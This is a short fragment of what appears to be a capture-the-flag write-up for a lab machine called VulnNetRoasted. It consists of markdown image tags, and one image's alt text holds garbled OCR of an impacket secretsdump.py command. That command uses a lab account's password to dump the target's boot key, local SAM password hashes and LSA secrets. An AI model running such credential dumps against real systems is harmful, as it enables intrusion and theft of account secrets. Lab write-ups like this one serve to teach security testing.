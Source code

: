 <img src="VulnNetRoasted/media/image16.png"
style="width:4.80833in;height:1.3in"
alt="(kaliS —/Down10ads ] $ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9htö1ø.10.33.1 Impacket vø.1ø.1.dev1+2ø22ø6ø6.123812.ac35841f - Copyright 2022 SecureAuth Corporation [ * ] Service RemoteRegistry is in stopped state Starting service RemoteRegistry Target system bootKey: øxf1øa2788aef5f622149a41b2c745f49a Dumping local SAM hashes Administrator : 500 : aad3b435b51404eeaad3b435b51404ee : c2597747aa5e43022a3a3049a3c3b09d : : : Guest : 501 : aad3b435b51404eeaad3b435b51404ee : 31d6cfeOd16ae931b73c59d7eøc089cø : : : DefaultAccount : 503 : aad3b435b514øoeeaad3b435b51404ee : 31d6cfeød16ae931b 73c59d7eøcø89cø : : : [-] SAM hashes extraction for user WDAGUtilitYAccount failed. The account doesn&#39;t have hash information. [ * ] Dumping cached domain logon information (domain/username:hash) Dumping LSA Secrets $MACHINE . ACC VULNNET-RST WIN-280BMIOEIM1 " />

<img src="VulnNetRoasted/media/image17.png"
style="width:4.78333in;height:2.66667in" />

